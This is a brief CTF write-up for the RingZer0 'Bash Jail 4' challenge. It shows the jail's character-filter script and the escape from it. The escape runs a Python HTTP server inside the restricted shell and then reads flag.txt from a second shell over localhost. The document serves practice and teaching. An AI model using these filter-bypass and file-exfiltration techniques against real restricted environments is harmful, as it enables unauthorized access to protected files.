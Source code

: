 # **Bash Jail 4**

```shell=
ubuntu@ubuntu-virtual-machine:~$ ssh level4@challenges.ringzer0team.com -p 10221 

level4@challenges.ringzer0team.com's password: 

RingZer0 Team Online CTF

BASH Jail Level 4:
Current user is uid=1003(level4) gid=1003(level4) groups=1003(level4)

Flag is located at /home/level4/flag.txt

Challenge bash code:
-----------------------------

WARNING: this prompt is launched using ./prompt.sh 2>/dev/null

# CHALLENGE

function check_space {
	if [[ $1 == *[bdksc'/''<''>''&''$']* ]]
	then 	
    		return 0
	fi

	return 1
}

while :
do
	echo "Your input:"
	read input
	if check_space "$input" 
	then
		echo -e '\033[0;31mRestricted characters has been used\033[0m'
	else
		output=`$input < /dev/null` &>/dev/null
		echo "Command executed"
	fi
done 

-----------------------------
Your input:
```

Bash Jail 3's first resolution cannot work this time.

Fortunately, method 2 still work this time.

Let's simply build a HTTP server to receive requests from level1.

```shell=
Your input:
s
Restricted characters has been used
Your input:
S
Command executed
Your input:
python -m SimpleHTTPServer 8000
```
```shell=
/bin/bash

level1@lxc17-bash-jail:~$ python3 1>&0
Python 3.4.3 (default, Oct 14 2015, 20:28:29)
\[GCC 4.8.4\] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>\> import urllib.request
>>\> urllib.request.urlopen("http://127.0.0.1:8000/flag.txt").read()
b'FLAG-XXXXXX
```